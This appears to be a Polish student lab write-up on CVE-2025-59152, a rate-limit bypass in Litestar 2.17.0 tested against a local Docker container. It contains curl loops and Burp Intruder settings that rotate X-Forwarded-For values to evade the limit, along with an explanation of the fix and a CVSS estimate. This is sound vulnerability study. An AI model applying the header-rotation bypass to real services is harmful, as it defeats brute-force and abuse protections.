



# Zadanie 8.3 — Litestar Rate Limit Bypass przez X-Forwarded-For (CVE-2025-59152, CWE-807)

> **Cel:** pokazać, że rate-limiting (`RateLimitMiddleware`) w Litestar 2.17.0
> można obejść, bo `cache_key_from_request()` identyfikuje klienta po
> **nagłówku `X-Forwarded-For`** — rotując XFF, każde żądanie dostaje osobny
> licznik.

| | |
|---|---|
| **Aplikacja** | `docker run -dp 8001:8000 docker.io/mazurkatarzyna/cve-2025-59152:latest` → `http://127.0.0.1:8001` |
| **Endpoint** | `GET /api/data` — limit **2/min** |
| **Podatność** | CVE-2025-59152 / CWE-807 (zaufanie do danych kontrolowanych przez klienta) |

## b) Rate-limit działa (bez XFF)
```bash
for i in $(seq 1 10); do
  curl -s -o /dev/null -w "req $i -> %{http_code}\n" http://127.0.0.1:8001/api/data
done
```
Wynik: po wykorzystaniu 2/min serwer zwraca **`429 Too Many Requests`**
(wszystkie żądania mają to samo IP → jeden kubełek).

## c/d) Obejście — rotowany XFF co żądanie
```bash
for i in $(seq 1 10); do
  curl -s -o /dev/null -w "req $i (XFF 10.0.0.$i) -> %{http_code}\n" \
    http://127.0.0.1:8001/api/data -H "X-Forwarded-For: 10.0.0.$i"
done
```
Wynik: **same `200`** — każdy inny `X-Forwarded-For` to osobny klient dla
rate-limitera → limit nigdy nie wskakuje.



| Scenariusz | Wynik |
|-----------|-------|
| bez XFF (to samo IP) | `429` po przekroczeniu 2/min |
| rotowany XFF (`10.0.0.N`) | wszystkie `200` — limit ominięty |

> W Burp Intruder to samo: atak **Sniper**, pozycja `§` na wartości nagłówka
> `X-Forwarded-For`, payload = losowe/rosnące IP → wszystkie odpowiedzi `200`.

## Na czym polega błąd
Klucz rate-limitu budowany jest z `X-Forwarded-For`, który jest **w pełni
kontrolowany przez klienta**. Atakujący rotuje wartość i każde żądanie trafia do
innego kubełka — ochrona (brute-force, DoS, nadużycia API) przestaje działać.

## e) Jak naprawiono
Litestar przestał bezwarunkowo ufać XFF; klucz rate-limitu powinien bazować na
rzeczywistym IP połączenia, a XFF honorować tylko dla znanych, zaufanych proxy.

## f) CVSS (propozycja)
Obejście ochrony rate-limit (umożliwia brute-force/DoS), bez uwierzytelnienia:
`CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:L` ≈ **5.3 (Medium)**
(do weryfikacji na kalkulatorze NVD).

---

## Uwaga: próba w Burp Intruder (dlaczego nie użyłem Burpa) 📝

Chciałem zrobić 8.3 „po GUI-owemu" w **Burp Intruder**, ale się nie nadaje do
tego zadania — notatka na przyszłość.

**Co próbowałem:**
- Żądanie `GET /api/data` → Send to Intruder (Sniper).
- **Część b** (limit): dodałem nieszkodliwy nagłówek `X-Test: §§`, payload
  Numbers 1–20 (to samo IP, 20 żądań) → oczekiwane `200,200,429,429...`.
- **Część c** (obejście): `X-Forwarded-For: 10.0.0.§§`, Numbers 1–20.

**Problem — throttling Burp Community:**
Intruder w wersji Community jest **celowo dławiony** (ogranicza tempo żądań).
Limit w aplikacji to tylko **2/min**, więc okno limitu resetuje się między
powoli wysyłanymi żądaniami i **`429` nigdy nie wskakuje** — nawet dla tego
samego IP (część b) wyszły **same `200`**. Czyli w Burp Community nie da się
pokazać kontrastu „zablokowane vs ominięte" przy tak niskim limicie.





**Wniosek:** do limitów czasowych (rate-limit) na Burp **Community** używaj
**curl** (wysyła serię natychmiast → limit od razu wskakuje) — i to jest
powyżej właściwy dowód 8.3. Alternatywy, gdyby ktoś chciał w Burpie:
- **Resource pool** → Maximum concurrent requests ↑, Delay 0 (Community i tak
  nakłada własny hamulec, więc może nie wystarczyć),
- dodatek **Turbo Intruder** (darmowy, Extensions → BApp Store) — wysyła setki
  żądań/s, realnie szybki,
- **Burp Pro** (bez throttlingu Intrudera).

Burp zostaw do zadań z **manipulacją nagłówkami** (8.1, 8.2, 2.3) — tam jest
idealny; przy limitach czasowych na Community się nie sprawdza.
